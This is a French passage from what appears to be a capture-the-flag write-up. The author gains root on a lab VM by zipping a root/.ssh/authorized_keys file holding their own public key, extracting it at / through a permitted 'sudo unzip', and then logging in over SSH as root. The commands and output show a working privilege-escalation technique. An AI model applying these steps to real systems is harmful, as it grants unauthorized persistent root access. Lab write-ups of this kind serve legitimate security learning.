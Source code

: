 Pour cela je crée une arborescence comme si j'étais à la racine, puis je la compresse :

```console
$ mkdir -p root/.ssh
$ cp ~/.ssh/key_no_pass.pub root/.ssh/authorized_keys
$ zip -r archive root/
  adding: root/ (stored 0%)
  adding: root/.ssh/ (stored 0%)
  adding: root/.ssh/authorized_keys (deflated 16%)
$ scp -i ~/.ssh/key_no_pass archive.zip  bla1@192.168.56.173:/var/tmp/
```

Sur la VM je me mets dans la racine et je décompresse :

```console
$ cd /    
$ sudo /usr/bin/unzip /var/tmp/archive.zip
Archive:  /var/tmp/archive.zip
   creating: root/.ssh/
  inflating: root/.ssh/authorized_keys
```

Et ça passe :

```console
$ ssh -i ~/.ssh/key_no_pass root@192.168.56.173
(-(-_(-_-)_-)-) (-(-_(-_-)_-)-) (-(-_(-_-)_-)-)

        ░░░░░░░░▄██████▄ Do this and I will give you a Hint
        ░░░░░░░█▀▀▀██▀▀▀▄
        ░░░░░░░█▄▄▄██▄▄▄█ Laugh uncontrollably for about 3 minutes
        ░░░░░░░▀█████████       then suddenly stop and look suspiciously 
        ░░░░░░░░▀███▄███▀░░          at everyone who looks at you.
        ░░░░░░░░░▀████▀░░░░░                Or
        ░░░░░░░▄████████▄░░░░ Enumerate Hostname and Distro's codename of this box
        ░░░░░░████████████░░░░       And try to get Secure SHell

(-(-_(-_-)_-)-) (-(-_(-_-)_-)-) (-(-_(-_-)_-)-)

PS: For Newbie refer this website to know more : google.co.in
root@ck04:~# id
uid=0(root) gid=0(root) groups=0(root)
```



